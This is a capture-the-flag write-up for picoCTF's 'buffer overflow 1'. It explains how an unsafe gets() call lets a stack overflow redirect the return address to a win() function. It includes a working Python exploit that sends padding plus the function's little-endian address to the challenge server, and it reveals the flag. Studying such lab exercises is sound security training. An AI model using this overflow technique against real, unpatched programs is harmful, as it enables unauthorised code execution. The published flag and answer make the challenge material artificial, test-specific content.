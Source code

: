 ## <p style="text-align: center;">buffer overflow 1</p>

<ol>
    <li>
    We get "vuln.c" and "vuln"

    $ wget https://artifacts.picoctf.net/c/250/vuln; https://artifacts.picoctf.net/c/250/vuln.c
</li>
<br/>
    <li>
    Reading through "vuln.c" I noticed the function that prints the flag is the "win" function, but yet it's not called during the execution of "vuln".
</li>
<br/>
    <li>
    Also the "vuln" funtion uses the dangerous "gets" to get the input, and since it's the only thing it does besides the print below, we can cause a buffer overflow to change it's return address.
</li>
<br/>
    <li>
    For us to be able to direct the return address to "win"s, we need to know it's adress. We can do that by using the program "readelf" on "vuln" (watch out because the address comes in little endian, we need to swap it's endianness): 
</li>

```bash

$ readelf -s ./vuln

> Num:    Value  Size Type    Bind   Vis      Ndx Name
  ...
  63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
  ...

```
<br/>
<li>
Now we just need to overflow the buffer with "win"s return address:

```python
import socket

payload = b"A"*44 + b"\xf6\x91\x04\x08" + b"\n"

with socket.socket() as connection:

    connection.connect(("saturn.picoctf.net",56104))
    connection.recv(4096).decode("utf-8")
    connection.send(payload)
    text, flag = connection.recv(4096).decode("utf-8").split("\n")
    print(flag)

```

</li>
<br/>
<details>
    <summary> Flag </summary>
    
    picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
</details>

</ol>